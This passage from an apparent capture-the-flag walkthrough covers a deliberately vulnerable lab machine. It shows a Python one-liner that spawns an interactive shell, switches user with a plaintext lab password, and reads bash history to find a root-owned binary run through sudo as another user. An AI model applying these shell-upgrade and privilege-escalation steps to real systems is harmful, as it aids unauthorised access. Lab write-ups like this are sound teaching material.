 
 - **python** -  we want to use python.
 - **-c** - (flag) that this is a python in this command.
 - **import pty** - import that package.
 - **pty.spawn("/bin/sh")**- create process of TTY shell.
![TTY Shell](https://i.imgur.com/InA8jkU.png)
Now we have full interactive shell!
Let's try again change user.

    su fristigod

With the password.

> LetThereBeFristi!

![Su FristiGod S](https://i.imgur.com/jBEgQp1.png)
Now we can move to fristigod folder.

    cd /var/fristigod
And check the files there (even the hidden ones).

    ls -al

 - **a** - (flag) for hidden files.
 - **l** - (flag) long format show, include permissions, size and etc.

![Fristigod Folder](https://i.imgur.com/VHL0M57.png)
We have 2 files

 - .bash_history
 - .secret_admin_stuff

Let's check the bash_history.

    cat .bash_history
![Bash History](https://i.imgur.com/rTECStt.png)
We can see that we have a file in *secret_admin_stuff* with the name *doCom* that can be executed.
So move to this folder.

    cd .secret_admin_stuff/
And than show all the files.

    ls -al
we can see *doCom* file and his owner is the *root*.

![doCom](https://i.imgur.com/7aQFBq7.png)

Let's try to run it.

    ./doCom

![Wrong user](https://i.imgur.com/LQdKwmA.png)
Wrong user? OK, maybe run it with the fristi user?

    sudo -u frisit ./doCom
   